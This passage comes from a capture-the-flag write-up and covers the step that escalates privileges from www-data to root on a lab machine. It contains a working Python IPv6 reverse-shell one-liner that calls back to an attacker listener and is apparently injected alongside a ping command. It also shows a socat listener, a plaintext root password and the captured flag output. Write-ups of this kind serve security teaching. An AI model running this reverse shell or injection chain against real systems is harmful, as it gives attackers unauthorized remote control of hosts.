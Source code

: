## PART 5.2 : PRIVILEGE ESCALATION (www-data -> root)

- Set-up a listener for IPv6:
  ```console
  $ socat TCP6-LISTEN:4444 stdout
  ```

- Execute an IPv6 reverse shell on the web service running on __port 80__:
  ```console
  $ python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100e",4444,0,0));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'; ping -c 2 127.0.0.1
  ```

- While inside the __reverse shell__:
  ```console
  $ id 

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

  $ su
  $ Password: lokipasswordmischieftrickery

  $ id
   
    uid=0(root) gid=0(root) groups=0(root)

  $ cat /root/root.txt

    The flag is not here, get a shell to find it!

  $ find / -name root.txt -type f -uid 0

    /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
    /root/root.txt

  $ cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt

    ae15........................7807

  ```
